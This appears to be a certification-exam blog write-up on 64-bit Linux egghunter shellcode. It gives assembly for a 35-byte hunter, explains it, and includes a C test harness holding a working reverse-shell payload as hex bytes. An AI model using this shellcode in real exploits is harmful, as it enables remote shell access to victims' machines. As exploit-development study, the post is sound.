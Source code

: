 title: Egghunter Shellcode
date: 2018-05-19
published: true 
summary: My solution to SLAE64 Exam Question 3
tags: shellcode, exploit, assembly

#Egghunter Shellcode

This is my solution to the third exam question of the SLAE64 certification. This exercise was to research "Egghunter" shellcode and create a demo of the payload.

Egghunter shellcode essentially is a small stub shellcode program which searches for a particular flag or series of bytes in memory, and then jumps to that location. In general, this would be used in situations where you only have the ability to execute a limited amount of instructions. Maybe your full payload doesn't fit in that space. The solution is to store the real payload somewhere else in memory, and just use the egghunter shellcode to search for that payload and jump to it. "Hunting for the egg" is necessary, since in some situations the payload may be stored in unknown memory locations.

Depending on the situation, it's possible for the "egg" to be on the stack, heap, or somewhere else in process memory (uninitialized/initialized data). You won't know the exact location, hence the need for egghunting code.

In previous posts, I really just tried to remove null bytes and didn't optimize much for size. However - the entire reason egghunter code exists is to deal with size restrictions, so I wanted to optimize my final payload as much as possible.

As an example, I set up a C program which allocates memory on the heap for the 8 byte flag and the rest of the reverse-shell shellcode from exam questions 2. I kept the password protection - the assumption is you are only worried about size constraints for the egghunter stub. That's basically the entire point - so you can store a bigger payload somewhere else, find it, and execute it. There's no way to guess the address of this buffer prior to runtime, so our egghunter code will have to find this buffer and jump to it.

This is the example C program used:

        #include <stdio.h>
        #include <string.h>
        #include <stdlib.h>

        //egg precedes payload when we put on heap with malloc
        //8 bytes
        char egg[] = "mrtfegg\x23";

        //This is egghunter shellcode
        unsigned char code[] = "\x48\x31\xf6\x6a\x15\x58\x52\x5f\x48\x83\xc2\x08\x0f\x05\x3c\xf2\x74\xf1\x48\xb8\x6d\x72\x74\x66\x65\x67\x67\x23\x48\x3b\x07\x75\xe2\xff\xe2";

        //rev shell payload - :
        unsigned char payload[] = "\x48\x31\xc0\xb0\x29\x48\x31\xff\x40\xb7\x02\x48\x31\xf6\x40\xb6\x01\x48\x31\xd2\x0f\x05\x48\x89\xc7\x52\x52\xc7\x44\x24\x04\x5c\x23\x23\x22\x81\x74\x24\x04\x23\x23\x23\x23\x66\xc7\x44\x24\x02\x7a\x69\xc6\x04\x24\x02\x48\x31\xc0\xb0\x2a\x48\x89\xe6\xb2\x10\x0f\x05\x48\x31\xc0\xb0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\xb0\x21\x48\x31\xf6\x40\xb6\x01\x0f\x05\x48\x31\xc0\x48\x31\xff\x48\x89\xe6\x48\x31\xd2\xb2\x08\x0f\x05\x48\xbb\x6d\x72\x74\x66\x73\x68\x31\x0a\x48\x8b\x3c\x24\x48\x39\xfb\x75\x20\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x90";

        main()
        {
                //strlen ok here bc no nulls in either
                printf("mallocing memory for execve payload:\t%d byte egg\t%d byte payload\n\n", (int)strlen(egg), (int)strlen(payload));
                //malloc space for egg + reverse shell (157+8)
                char *sc_loc;
                size_t payload_len = strlen(egg) + strlen(payload);
                sc_loc = malloc(payload_len);
                //memcpy egg, then payload so it is all in some unknown loc in memory
                memcpy(sc_loc, egg, (int)strlen(egg));
                memcpy(sc_loc+8,payload,(int)strlen(payload));
                printf("egg and payload copied to start address %p\n\n",sc_loc);
                int (*ret)() = (int(*)())code;
                ret();
        }

As in most of these examples, I compiled this program with the following `gcc` command (notice I don't mark the `malloc`'d memory executable, `-execstack` also makes the heap executable I learned...)

The trickiest part of this, in my opinion, is figuring out how to safely scan process memory. The process address space is going to be full of memory that you can't actually access - attempting to do so will crash the program. The paper [here](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) basically walks through how to avoid bad memory accesses by checking the return values of specific syscalls. It provides three different implementations for Linux. At first I wanted to try the `sigaction` method, but after a bit of research I saw that syscall had changed quite a bit in the move to 64 bit architecture, so I stuck with the `access` method. Implementation proved trickier than I thought for sure, this question probably took me longer to get working than any other on the exam...

Here is my solution. It's only 35 bytes, which is significantly less than the 157 byte reverse shell payload I stored with the egg, so it could at least potentially work as an exploitation strategy in an extremely limited situation. 

        BITS 64

        global _start

        ;egg=mrtfegg\x23
        EGG equ 0x236767656674726d

        section .text
        _start:
                ;Egghunter shellcode
                ;adapted from 32 bit access implementation here: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
                xor rsi,rsi
        loop:
                ;access syscall is 21
                push 0x15
                pop rax
                push rdx
                pop rdi
                add rdx,0x8
                ; make access system call
                syscall
                ; EFAULT is bad page
                cmp al,0xf2
                ;EFAULT, next address
                jz loop
                mov rax, EGG
                cmp rax, [rdi]
                jnz loop
                jmp rdx

The general strategy behind the code is to iterate through memory addresses and use the `access` syscall to check if memory is valid. If the error code returned is `EFAULT`, then its a bad page , and we must skip it to avoid a program crash on a read attempt. If it's not, we compare the 8 bytes in memory with our egg. If they match, jump just past it to the code stored there. There are a couple differences in my code than the original paper. For one, the paper includes a routine to skip to the next page if the `access` syscall returns `EFAULT`. This makes the memory space search much faster. However, I wanted to optimize for code size rather than search time, so I removed that routine.

The search code was horribly slow with or without the logic to skip to the next page on a page fault. Turns out, you can't really efficiently exhaustively search 64-bit address space :). Rather than waiting hours while my shellcode was found, I cheated a little and examined the program state in gdb. I noticed that since the instruction that called the shellcode was `call rdx`, `rdx` already held the address of the start of the shellcode.  

![gdb rdx](/static/blog/2018/SLAE64/3/gdb_rdx.png)

This starting point was a pretty decent one, as the shellcode was still relatively small, it was copied into a low virtual address - generally between 0x1000000 and 0x2000000 on my machine during a few tests. Anyway, when run, finding the egg took anywhere between 10 and 20 seconds on my VM, but that was acceptable to me:

![egghunter fin](/static/blog/2018/SLAE64/3/egghunter_final.png)

All code referenced in this blog post is available at: <https://github.com/mrT-F/SLAE64/tree/master/3>

####Some research references used: 
* <http://www.fuzzysecurity.com/tutorials/expDev/4.html>
* <https://www.corelan.be/index.php/2010/01/09/>exploit-writing-tutorial-part-8-win32-egg-hunting/
* <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf>

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification* 

*Certification at: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>*

*Student ID: SLAE64 - 1546*
